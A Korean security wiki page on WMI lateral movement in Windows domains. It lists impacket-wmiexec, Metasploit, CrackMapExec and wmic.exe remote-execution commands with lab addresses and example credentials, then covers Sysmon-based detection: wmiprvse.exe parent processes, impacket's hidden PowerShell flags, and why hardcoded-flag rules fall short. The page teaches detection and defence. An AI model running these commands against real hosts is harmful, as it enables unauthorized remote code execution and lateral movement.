

# WMI

WMI (Windows Management Instrumentation)은 1996년 개발된 윈도우 드라이버 모델이다. 주 목적은 다양한 관리 어플리케이션들의 데이터 공유를 위한 인터페이스를 제공하는 것이였다.&#x20;

보안적인 측면에서, 그리고 최근에는 원격 시스템의 코드 실행 및 프로세스 실행을 위해서 많이 쓰인다. 원격 시스템에 처음 접근 할 때는 포트 135를 사용하지만 그 이후에는 높은 번호의 ephemeral 포트가 사용된다.&#x20;

### 전제 조건&#x20;

* 타겟 호스트의 로컬 관리자 권한을 갖고 있는 계정/비밀번호/NTLM해시&#x20;
* 타겟 호스트의 포트 135 접근 가능 여부&#x20;

### 공격&#x20;



impacket이나 Metasploit등을 이용한다&#x20;

```
# impacket 
impacket-wmiexec '<domain>/<user>:<pass>@<FQDN/IP> -shell-type powershell 
impacket-wmiexec 'pci.choi.local/low:Password123!'@192.168.40.161 -shell-type powershell

# Metasploit 
use auxiliary/scanner/smb/impacket/wmiexec

# CrackMapexec 
cme smb <target> -u <user> -p <pass> -d <domain> --exec-method wmiexec -X whoami
cme smb 192.168.40.150 -u Administrator -p 'Password123!' --exec-method wmiexec -X whoami
```



따로 툴을 이용할 필요 없이 윈도우에서 제공하는 `wmic.exe` 을 이용한다.&#x20;

```
WMIC.exe /node:<ip> /user:<user> process call create "<process>"

WMIC.exe /node:192.168.40.160 /user:Administrator process call create "notepad.exe"
```




### 대응 방안&#x20;

공격자가 사용하는 툴 마다 WMI의 적용방법이 다르지만, 공통적으로 나타나는 현상에 집중한다. 윈도우 호스트에서 직접 `wmic.exe` 프로세스를 이용하건, 리눅스에서 impacket을 이용해 wmiexec.py를 이용하건, 공통적으로 WMI를 이용하는 툴들은 모두 `WmiPrvSE.exe` 라는 프로세스에서 시작된다.&#x20;

 (1) (1) (3).png>)

`eventvwr.exe` 를 실행 한 뒤 시스몬 로그들을 확인해보면 공격자가 WMI로 접근을 한 뒤, 첫 명령어를 치자마자 시스몬 아이디 1 - Process Create가 로그된 것을 볼 수 있다.&#x20;



눈여겨 볼 것은 부모 프로세스로 `wmiprvse.exe` 프로세스가 실행됐다는 것, 그리고 커맨드라인이 심상치 않다는 점이다. base64를 디코딩 해보면&#x20;

```
$ProgressPreference="SilentlyContinue";whoami
```

가 나온다. 앞의 플래그들 또한 `-NoP (노 프로필), -noL (노 로고), -sta (싱글 쓰레드 아파트먼트), -NonI (노 인터렉티브), -W (윈도우 - Hidden)` 등의 악성코드가 자주 사용하는 플래그들이 보인다.&#x20;

따라서 WMI 횡적이동을 탐지하고 대응하기 위해선 다음과 같은 로직들이 필요하다.&#x20;

1. 포트 135 접근 이후 ephemeral 포트로 접근하며&#x20;
2. 타겟 호스트의 로컬 관리자 권한이 있는 유저가&#x20;
3. 부모 프로세스는 `wmiprvse.exe`, 자식 프로세스는 `cmd.exe` 혹은 `powershell.exe` 을 생성하며
4. 최종 실행되는 커맨드라인에 수상한 플래그들이 들어가 있을 경우&#x20;

### 대응 방안 - 주의점&#x20;

WMI 또한 툴 마다 구현이 다르기 때문에 특정 플래그를 하드코딩해 탐지/대응 하는 것은 옳지 않다. 예를 들어 위 로그의 최종 커맨드 라인인 `cmd.exe /Q /c powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc` 은 impacket에 [하드코딩 된 플래그](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py#L127-L129)들이다.&#x20;

```
self.__shell = 'cmd.exe /Q /c '
self.__shell_type = shell_type
self.__pwsh = 'powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc '
```

공격자들은 언제나 이런 하드코딩 된 플래그를 바꿀 수 있고, impacket이 아닌 다른 툴들은 다르게 WMI를 구현할 수 있기 때문에 하드코딩 기반의 탐지/대응 방안은 1개의 툴은 막더라도 다른 툴들은 못 막을 수 있으니 이 점을 유의한다.&#x20;

### 레퍼런스





